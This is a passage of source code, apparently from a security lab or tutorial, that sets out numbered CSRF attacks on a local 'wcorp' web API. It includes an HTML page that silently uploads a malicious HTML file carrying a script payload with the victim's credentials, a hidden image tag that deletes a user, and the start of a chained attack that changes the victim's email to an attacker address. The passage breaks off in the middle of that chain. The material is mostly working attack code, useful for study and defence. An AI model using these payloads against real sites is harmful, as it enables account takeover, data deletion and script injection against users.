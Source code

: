 #### Attack 2: CSRF File Upload

```html
<!-- csrf-upload.html -->
<!DOCTYPE html>
<html>
<body>
    <h1>Loading...</h1>
    
    <form id="upload-form" method="POST" action="http://localhost:3000/wcorp/api/upload" enctype="multipart/form-data">
        <input type="file" name="file" id="file-input">
    </form>
    
    <script>
        // Create malicious file
        const blob = new Blob(['<script>alert("XSS from CSRF upload")</script>'], { type: 'text/html' });
        const file = new File([blob], "malicious.html", { type: 'text/html' });
        
        // Create FormData
        const formData = new FormData();
        formData.append('file', file);
        
        // Submit with victim's credentials
        fetch('http://localhost:3000/wcorp/api/upload', {
            method: 'POST',
            credentials: 'include',
            body: formData
        }).then(response => response.json())
          .then(data => {
              // Attacker gets the uploaded file URL
              console.log('Uploaded:', data);
          });
    </script>
</body>
</html>
```

#### Attack 3: CSRF via Image Tag

```html
<!-- Very simple CSRF using GET request -->
<img src="http://localhost:3000/wcorp/api/user/delete?id=5" style="display:none;">

<!-- Works if the API accepts GET for state-changing operations -->
```

#### Attack 4: CSRF Chain Attack

```html
<!-- Multi-step CSRF attack -->
<!DOCTYPE html>
<html>
<body>
    <h1>Loading your content...</h1>
    
    <script>
        async function csrfAttack() {
            // Step 1: Change email
            await fetch('http://localhost:3000/wcorp/api/user/update', {
                method: 'POST',
                credentials: 'include',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({ email: 'hacked@attacker.com' })
            });
```